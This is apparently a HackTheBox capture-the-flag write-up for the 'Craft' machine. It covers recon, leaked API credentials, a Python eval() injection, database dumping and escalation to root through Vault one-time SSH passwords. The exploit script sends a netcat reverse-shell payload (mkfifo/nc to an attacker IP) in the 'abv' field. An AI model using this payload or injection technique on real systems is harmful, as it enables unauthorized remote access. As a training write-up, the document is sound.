 ## HackTheBox Machine
<img src="Craft.png" alt="Alt Text" width="400" height="300" />

### Link: https://app.hackthebox.com/machines/Craft
-------------------------------------------------------

### RECON:
+ Scan the open port in the machine:

```bash
$ nmap -sV -vv -A -T4 -p- craft.htb
PORT     STATE SERVICE  REASON  VERSION
22/tcp   open  ssh      syn-ack OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)

443/tcp  open  ssl/http syn-ack nginx 1.15.8
|_http-server-header: nginx/1.15.8
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Issuer: commonName=Craft CA/organizationName=Craft/stateOrProvinceName=New York/countryName=US/emailAddress=admin@craft.htb/localityName=Buffalo/organizationalUnitName=Craft
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-02-06T02:25:47
| Not valid after:  2020-06-20T02:25:47
| MD5:   0111:76e2:83c8:0f26:50e7:56e4:ce16:4766
| SHA-1: 2e11:62ef:4d2e:366f:196a:51f0:c5ca:b8ce:8592:3730
6022/tcp open  ssh      syn-ack (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:cc:bf:f1:a1:8f:72:b0:c0:fb:df:a3:01:dc:a6:fb (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDU+fEcb0HbuFvUiMce89AuwclFwGQAJ/FSk+X/uPL+08lP9AzNCivAovV8Py3XEGfUhSDQeJ6Xw5aZCIZB7z/40IViSC1S1fe49lmv7TlDSFKEOZIDQIAuDP3giwyrdX0MnM5qrFtqs9lIH0D8MnGVCh3kcjG5Mh+Jb4/fcGkIpLSAyVc2Fm5PFFV0XIay5vv/SffCO1141JHFZj+Sal4t4MmlZiY1RTaAgGLsn1SshS2EYFv91rZqHmmNCk+GNVSU9txRQm3OrB+06QTsOWnYN71p6+hTe/TQjhaE53zM+/xZi7sPIq6l6evvNSMOOt9fgVQkvM2NuVutLiq6od2h
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
```

### Exploit Gogs service:
+ Access the main page `craft.htb`, we've found the `API` and Git service `Gogs`.
+ Go each page one by one, we've found some interesting things. In the page `Gogs`, we saw the repo `craft-api` with developers.
+ Looking around account of developers, we've found the commit of user `dinesh` about the bug of API:

![alt text](/Machine_Labs/Craft/Images/image-1.png)

--> We found the dinesh user's password for the API: `'dinesh', '4aUh0A8PbVJxgd'`.

+ We can use the credential to login API:

![alt text](/Machine_Labs/Craft/Images/image-2.png)

--> Get the token to login. We can use it to check later.

![alt text](/Machine_Labs/Craft/Images/image-4.png)

![alt text](/Machine_Labs/Craft/Images/image-5.png)

+ Back to the first commit, we check the source code `brew.py`:

```bash
 # make sure the ABV value is sane.
        if eval('%s > 1' % request.json['abv']):
            return "ABV must be a decimal value less than 1.0", 400
        else:
            create_brew(request.json)
            return None, 201
```

--> We've found the vulnerability in `eval()`, we can inject the payload into function to spawn reverse shell.

***Note:*** `eval()` - function evaluates the specified expression, if the expression is a legal Python statement, it will be executed:

```python
>>> eval("2 + 2")
4
>>> eval("__import__ ('os').system('whoami')")
zicco
0
```

+ Access `/craft-api/tests/test.py`, we see the source code and func `eval()` in brew.py that we will manipulate the parameter `abv` to inject the payload when execute `test.py` to create a new brew entry.
+ Download `test.py` to the attack machine and edit the file to run it:

```python
#!/usr/bin/env python

import requests
import json
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']

headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

# make sure token is valid
response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False)
print(response.text)


# create a sample brew with real ABV... should succeed.
print("Create real ABV brew")
brew_dict = {}
brew_dict['abv'] = "__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> 4444 >/tmp/f')"
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'bullshit'

json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
```

***Note***: We add `urllib3`:
```
import urllib3 
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
```
to disable the error certification

+ Now run file test.py and open netcat to capture the shell:

![alt text](/Machine_Labs/Craft/Images/image-6.png)

![alt text](/Machine_Labs/Craft/Images/image-7.png)

### Finding SSH credenials through Mysql database:
+ In the file `settings.py`, we found the credential user of database:

![alt text](/Machine_Labs/Craft/Images/image-8.png)

--> We've had `User`, `Password`, `DB`, `Host`.

+ Back again the repo `craf-api`, we've check python file `dbtest.py`. We are able to run file .py in the target machine to extract the information of database.
+ Firstly, we will wget file .py in target machine and edit again `dbtest.py`.

```bash
$ sudo python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.14.5 - - [09/Mar/2025 14:27:13] "GET / HTTP/1.1" 200 -
10.10.14.5 - - [09/Mar/2025 14:27:13] code 404, message File not found
10.10.14.5 - - [09/Mar/2025 14:27:13] "GET /favicon.ico HTTP/1.1" 404 -
10.10.10.110 - - [09/Mar/2025 14:27:22] "GET /dbtest.py HTTP/1.1" 200 -
```

![alt text](/Machine_Labs/Craft/Images/image-9.png)

+ We can check file edited:
```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "show tables" # Edit query sql to execute which we want
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)

finally:
    connection.close()
```
***Note***: Because import `pymysql` we can use `fetchall()` - Fetch all the rows. Searching more relate class `pymysql` in [here](https://pymysql.readthedocs.io/en/latest/modules/cursors.html).

+ Run `dbtest.py`:

![alt text](/Machine_Labs/Craft/Images/image-10.png)

+ Now we change query to extract users:

```python
 with connection.cursor() as cursor:
        sql = "SELECT * FROM user"
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)
```

+ Run `dbtest.py` again:

![alt text](/Machine_Labs/Craft/Images/image-11.png)

--> We use the credential user `gilfoyle` to login git service `gogs`.

+ Login `gogs` we found the gilfoyle's repo name `craft-infra`.
+ Check repo we had key .ssh/id_rsa to login SSH. Save key to machine and login SSH.

![alt text](/Machine_Labs/Craft/Images/image-12.png)

### Privilege Escalation:
+ Check again repo `craft-infra`, we've checked secret file `secrets.sh` in /vault.
+ Read it and we guess we can use it to privilege escalation.

![alt text](/Machine_Labs/Craft/Images/image-13.png)

+ Research about `vault` and `ssh`, we found the way call `One-time SSH passwords`. [Read it!!!](https://developer.hashicorp.com/vault/docs/secrets/ssh/one-time-ssh-passwords).

+ We run following `Automate it!` to create a new OTP and invoke SSH with the correct parameters to connect to the host.

+ Run CLI and we get the root:

![alt text](/Machine_Labs/Craft/Images/image-14.png)
-----------------------------------------------------------